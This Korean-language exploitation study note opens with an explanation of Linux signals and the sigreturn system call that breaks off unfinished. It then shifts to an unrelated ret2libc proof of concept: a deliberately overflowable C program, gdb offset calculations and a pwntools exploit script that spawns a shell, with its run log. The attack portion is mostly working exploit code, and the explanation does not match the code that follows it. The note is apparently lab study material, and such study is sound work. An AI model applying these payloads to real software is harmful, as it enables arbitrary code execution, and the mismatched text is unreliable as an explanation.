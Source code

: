 ## Concept

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장한다.

### **Signal**

signal은 프로세스에게 이벤트가 발생했음을 알려준다.  

signal은 일반적으로 커널이 송신하며, 다음과 같은 이벤트 종류가 있다.  
    * 하드웨어 예외가 발생한 경우
    * 사용자가 시그널을 발생시키는 터미널 특수 문자 중 하나를 입력한 경우
    * 소프트웨어 이벤트 발생한 경우

signal이 프로세스에게 전달되면 시그널의 종류에 따라 다음과 같은 동작을 수행한다.
    * 시그널 무시
    * 프로세스 종료
    * 코어 덤프 파일 생성 후 프로세스 종료
    * 프로세스 중지
    * 프로세스 실행 재개

### **Signal Handler**

signal handler는 프로그램이 특정 시그널의 기본 동작을 수행하는 대신 프로그래머가 원하는 동작을 수행하도록 변경할 수 있다.  
signal hnadler는 User Mode 프로세스에 정의되어 있고 User Mode 코드 세그먼트에 포함된다.  
signal handler가 User Mode에서 실행되는 동안 Kernel Mode에서 handle_signal()함수가 실행된다.  
    * User Mode에서 Kernel Mode로 진입시 User Mode에서 사용중이던 context를 Kernel stack에 저장한다.
    * Kernel Mode에서 User Mode로 진입 시 Kernel stack은 모두 초기화된다.
    * 이러한 문제를 해결하기 위해 setup_frame(), sigreturn() 함수를 사용한다.
        * setup_frame(): User Mode의 stack을 설정
        * sigreturn(): Kernel Mode stack에 hardware context를 복사하고, User Mode stack의 원래의 context를 저장

signal handler는 다음과 같이 처리된다.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50] = "";
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```
buf 크기는 50byte이지만 100byte를 입력받아 Buffer Overflow 발생.

```
gdb-peda$ x/24wx $ebp
0xbfdcb318:	0x41414141         0x42424242 <- &execve 0x43434343 <- &exit 0x44444444 <- &"/bin/sh"
0xbfdcb328:	0x45454545 <- null 0x46464646 <- null    0x0000000a          0xb7e0b637
```

execve()와 "/bin/sh" 주소를 확인한다.

```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e3c670 <__printf>

gdb-peda$ p execve-printf
$2 = 0x67170

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f4ea0b ("/bin/sh")
gdb-peda$ p 0xb7f4ea0b-0xb7e3c670
$3 = 0x11239b

gdb-peda$ p printf-exit
$4 = 0x1aca0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process('ret2libc')

recv = p.recvline()
printf=int(recv.split(' ')[3],16)
execve = printf + int(0x67170)
binsh = printf + int(0x11239b)
exit = printf - int(0x1aca0)
null = printf - int(0x49530)

print('printf  :'+hex(printf))
print('execve  :'+hex(execve))
print('/bin/sh :'+hex(binsh))
print('exit    :'+hex(exit))
print('null    :'+hex(null))
p.sendline("A"*66+p32(execve)+p32(exit)+p32(binsh)+p32(null)+p32(null))

p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not find executable 'ret2libc' in $PATH, using './ret2libc' instead
[+] Starting local process './ret2libc': pid 16968
printf  :0xb7d94670
execve  :0xb7dfb7e0
/bin/sh :0xb7ea6a0b
exit    :0xb7d799d0
null    :0xb7d4b140
[*] Switching to interactive mode
$ id
uid=1000(bs) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86](https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86)

